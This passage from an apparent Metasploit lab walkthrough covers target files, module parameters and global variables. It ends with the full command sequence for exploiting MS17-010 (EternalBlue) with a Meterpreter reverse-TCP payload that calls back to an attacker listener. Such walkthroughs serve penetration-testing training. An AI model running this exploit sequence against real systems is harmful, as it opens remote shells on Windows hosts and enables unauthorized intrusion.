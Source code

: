 
### 📁 Using Target Files with RHOSTS

You can specify multiple targets by using a file and referencing it with the `file:` keyword.

```bash
set RHOSTS file:/root/Desktop/targets.txt
```

This is useful when performing scans or exploits against multiple systems at once.

![Setting RHOSTS with file](https://github.com/user-attachments/assets/3b21bd4b-eb0e-4151-9366-cbfa72fdce48)

*Example of setting RHOSTS with a target file and verifying it with `show options`.*


### 🎛️ Parameters:
| Name    | Description |
|---------|-------------|
| `RHOSTS` | Remote target IP(s) |
| `RPORT`  | Target port (e.g., 80, 445) |
| `LHOST`  | Attacker IP (local) |
| `LPORT`  | Attacker listener port |
| `PAYLOAD` | Payload to be delivered |
| `SESSION` | Used in post-exploitation modules |

### 🧠 Global Variables:
```bash
setg RHOSTS 10.10.10.10
```

Retains value across modules until cleared with:
```bash
unsetg RHOSTS
```

---

## 💥 Task 5 - Exploiting MS17-010 (EternalBlue)

### ▶️ Execution Flow:
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
exploit -z
```

